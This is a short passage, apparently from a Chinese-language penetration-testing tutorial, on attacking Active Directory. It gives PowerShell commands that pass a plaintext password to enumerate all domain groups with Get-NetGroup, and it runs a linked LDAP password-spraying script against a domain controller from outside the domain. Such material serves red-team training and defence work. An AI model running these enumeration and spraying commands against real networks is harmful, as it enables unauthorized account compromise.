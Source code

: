 ![](images/13.jpg)

3)查询所有组

	$uname="tony"                                                      
	$pwd=ConvertTo-SecureString "Passw0rd" -AsPlainText –Force            
	$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
	Get-NetGroup -Domain test.com -DomainController 10.10.40.50 -ADSpath "LDAP://DC=lmrsec,DC=com" -Credential $cred | fl name

![](images/14.png)

**ldap 暴力破解**：

DomainPasswordSpray的功能比较完整，但不支持域外的使用，这里使用了[三好学生的修改的脚本](https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-DomainPasswordSprayOutsideTheDomain.ps1)，支持域外使用。

	PS > Invoke-DomainPasswordSprayOutsideTheDomain -Domain "10.10.40.50/DC=lmrsec,DC=com" -UserList .\user.txt -Password Passw0rd -Verbose
	LDAP://10.10.40.50/DC=lmrsec,DC=com

![](images/19.jpg)
